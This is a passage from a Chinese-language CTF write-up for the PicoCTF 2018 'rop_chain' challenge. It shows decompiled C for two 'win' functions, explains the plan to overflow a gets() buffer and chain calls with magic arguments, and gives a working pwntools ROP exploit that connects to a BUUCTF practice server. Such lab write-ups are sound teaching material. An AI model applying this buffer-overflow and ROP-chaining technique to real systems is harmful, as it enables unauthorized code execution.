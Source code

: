 ```c
}
```

对于win1和win2的操作，在左边看到了两个函数

```c
#win_function1
void win_function1()
{
  win1 = 1;
}



#win_function2
int __cdecl win_function2(int a1)
{
  int result; // eax

  result = (unsigned __int8)win1;
  if ( win1 && a1 == -1163220307 )
  {
    win2 = 1;
  }
  else if ( win1 )
  {
    result = puts("Wrong Argument. Try Again.");
  }
  else
  {
    result = puts("Nope. Try a little bit harder.");
  }
  return result;
}
```

利用思路：

利用gets函数跳转到win_function1，之后跳转到win_function2，其中win_function2传递参数a1，a1需要等于-1163220307，之后跳转到flag函数，并且满足参数为-559039827即可拿到flag。

exp

```python
from pwn import*

context(os='linux',arch='i386',log_level='debug')
io=remote('node4.buuoj.cn',28410)
#io=process('/home/vi0let/文档/pwn/BUUCTF/PicoCTF_2018_rop_chain')


junk=b'a'*(0x18+4)
flag=0x0804862B 
win_function1=0x080485CB
win_function2=0x080485D8
a1=0xBAAAAAAD
#参数重复，所以用a2代替
a2=0xDEADBAAD

payload=junk+p32(win_function1)+p32(win_function2)+p32(flag)+p32(a1)+p32(a2)
io.sendline(payload)
io.interactive()
```
